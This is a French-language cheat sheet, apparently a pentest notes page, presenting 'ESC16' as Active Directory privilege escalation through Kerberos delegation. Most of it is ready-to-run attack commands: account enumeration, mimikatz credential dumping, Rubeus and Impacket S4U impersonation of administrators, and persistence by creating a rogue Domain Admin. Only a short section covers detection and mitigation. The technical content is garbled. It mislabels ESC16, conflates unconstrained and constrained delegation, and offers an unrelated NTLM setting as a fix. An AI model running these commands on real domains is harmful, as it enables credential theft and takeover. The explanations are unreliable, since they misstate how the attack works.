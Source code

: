 ```yaml
---
title: ESC16
date: "2025-07-15"
draft: false
---
```


# 🎯 ESC16 - Cheat Sheet

## 🎯 Vue d'ensemble
ESC16 (Escalation 16) est une technique d'escalade de privilèges Active Directory qui exploite les délégations Kerberos non contraintes pour obtenir des privilèges élevés.

---

## 🔍 Détection et Énumération

### Identification des Délégations Non Contraintes
```powershell
# Recherche des comptes avec délégation non contrainte
# Pourquoi : Identifier les comptes vulnérables à ESC16
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,SamAccountName

# Recherche avec PowerView
# Pourquoi : Utiliser PowerView pour une énumération avancée
Get-NetUser -TrustedToAuth | Select-Object samaccountname,useraccountcontrol

# Recherche avec LDAP
# Pourquoi : Utiliser LDAP pour une recherche directe
ldapsearch -H ldap://DC_IP -D "DOMAIN\USER" -w PASSWORD -b "DC=DOMAIN,DC=LOCAL" "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=524288))" sAMAccountName
```

### Énumération des Relations
```powershell
# Recherche des relations de délégation
# Pourquoi : Identifier les relations entre les comptes et les services
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,SamAccountName,MemberOf

# Recherche des groupes avec délégation
# Pourquoi : Identifier les groupes avec des privilèges de délégation
Get-ADGroup -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,SamAccountName,Members
```

---

## 🛠️ Outils d'Exploitation

### Rubeus
```powershell
# Exploitation avec Rubeus
# Pourquoi : Utiliser Rubeus pour l'exploitation des délégations
Rubeus.exe s4u /user:DELEGATED_USER /rc4:HASH /impersonateuser:ADMIN_USER /msdsspn:cifs/TARGET_SERVER /ptt

# Exploitation avec ticket existant
# Pourquoi : Utiliser un ticket existant pour l'exploitation
Rubeus.exe s4u /user:DELEGATED_USER /ticket:TICKET_B64 /impersonateuser:ADMIN_USER /msdsspn:cifs/TARGET_SERVER /ptt

# Exploitation avec mot de passe
# Pourquoi : Utiliser le mot de passe du compte délégué
Rubeus.exe s4u /user:DELEGATED_USER /password:PASSWORD /impersonateuser:ADMIN_USER /msdsspn:cifs/TARGET_SERVER /ptt
```

### Impacket
```bash
# Exploitation avec getST
# Pourquoi : Utiliser Impacket pour l'exploitation des délégations
getST.py -spn cifs/TARGET_SERVER -impersonate ADMIN_USER DOMAIN/DELEGATED_USER:PASSWORD

# Exploitation avec hashes
# Pourquoi : Utiliser des hashes pour l'authentification
getST.py -spn cifs/TARGET_SERVER -impersonate ADMIN_USER -hashes LMHASH:NTHASH DOMAIN/DELEGATED_USER

# Exploitation avec ticket
# Pourquoi : Utiliser un ticket existant
getST.py -spn cifs/TARGET_SERVER -impersonate ADMIN_USER -k -no-pass DOMAIN/DELEGATED_USER
```

### PowerShell
```powershell
# Exploitation avec PowerShell
# Pourquoi : Utiliser PowerShell pour l'exploitation des délégations
$cred = Get-Credential -UserName "DELEGATED_USER" -Message "Enter credentials"
$ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "cifs/TARGET_SERVER"
```

---

## 🎯 Techniques d'Exploitation

### Étape 1: Identification de la Cible
```powershell
# Identifier le compte avec délégation non contrainte
# Pourquoi : Trouver un compte vulnérable à ESC16
$delegatedUser = Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,SamAccountName | Select-Object -First 1

# Identifier la cible de privilèges
# Pourquoi : Identifier le compte cible pour l'impersonation
$targetUser = Get-ADUser -Filter {admincount -eq $true} -Properties admincount,SamAccountName | Select-Object -First 1
```

### Étape 2: Obtenir les Credentials
```powershell
# Obtenir le hash du compte délégué
# Pourquoi : Obtenir les credentials nécessaires pour l'exploitation
mimikatz # sekurlsa::logonpasswords
# Ou utiliser d'autres techniques comme Kerberoasting
```

### Étape 3: Exploitation de la Délégation
```powershell
# Utiliser Rubeus pour l'exploitation
# Pourquoi : Exploiter la délégation pour obtenir un ticket d'administrateur
Rubeus.exe s4u /user:$delegatedUser.SamAccountName /rc4:HASH /impersonateuser:$targetUser.SamAccountName /msdsspn:cifs/TARGET_SERVER /ptt

# Utiliser Impacket pour l'exploitation
# Pourquoi : Alternative avec Impacket
getST.py -spn cifs/TARGET_SERVER -impersonate $targetUser.SamAccountName DOMAIN/$delegatedUser.SamAccountName:PASSWORD
```

### Étape 4: Utilisation des Privilèges
```powershell
# Utiliser le ticket obtenu
# Pourquoi : Utiliser les privilèges obtenus pour accéder aux ressources
klist
# Le ticket est maintenant dans le cache Kerberos

# Accéder à la ressource cible
# Pourquoi : Accéder à la ressource avec les privilèges élevés
net use \\TARGET_SERVER\C$ /user:$targetUser.SamAccountName
```

---

## 🔧 Post-Exploitation

### Persistance
```powershell
# Création de comptes persistants
# Pourquoi : Maintenir l'accès après l'exploitation
New-ADUser -Name "EvilUser" -AccountPassword (ConvertTo-SecureString "EvilPass123!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "DOMAIN ADMINS" -Members "EvilUser"

# Modification des ACLs
# Pourquoi : Modifier les permissions pour maintenir l'accès
Set-ADObject -Identity "CN=EvilUser,CN=Users,DC=domain,DC=local" -Add @{msDS-AllowedToDelegateTo="krbtgt/DOMAIN.LOCAL"}
```

### Énumération Avancée
```powershell
# Énumération des privilèges obtenus
# Pourquoi : Comprendre l'étendue des privilèges obtenus
whoami /priv
whoami /groups

# Énumération des ressources accessibles
# Pourquoi : Identifier les ressources accessibles avec les nouveaux privilèges
Get-ADComputer -Filter * | ForEach-Object { Test-Path "\\$($_.Name)\C$" }
```

---

## 🛡️ Contre-Mesures

### Détection
```powershell
# Surveillance des délégations non contraintes
# Pourquoi : Détecter les comptes avec des délégations non contraintes
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,SamAccountName | Export-Csv -Path "unconstrained_delegation.csv"

# Surveillance des événements Kerberos
# Pourquoi : Détecter les tentatives d'exploitation de délégation
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} | Where-Object {$_.Message -like "*S4U2Self*"}
```

### Mitigation
```powershell
# Suppression des délégations non contraintes
# Pourquoi : Supprimer les délégations non contraintes dangereuses
Set-ADUser -Identity "DELEGATED_USER" -TrustedForDelegation $false

# Configuration de délégations contraintes
# Pourquoi : Utiliser des délégations contraintes au lieu de non contraintes
Set-ADUser -Identity "DELEGATED_USER" -Add @{msDS-AllowedToDelegateTo="cifs/TARGET_SERVER"}
```

### Configuration Sécurisée
```powershell
# Politiques de sécurité pour les délégations
# Pourquoi : Configurer des politiques pour limiter les délégations
# GPO: Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options
# "Network security: LAN Manager authentication level" = "Send NTLMv2 response only. Refuse LM & NTLM"
```

---

## 📚 Ressources

- **HackTricks ESC16** : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/unconstrained-delegation
- **BloodHound ESC16** : https://bloodhound.readthedocs.io/en/latest/data-analysis/attack-paths.html#unconstrained-delegation
- **Rubeus GitHub** : https://github.com/GhostPack/Rubeus
- **Impacket GitHub** : https://github.com/SecureAuthCorp/impacket

---

_Dernière mise à jour : 15 juillet 2025_

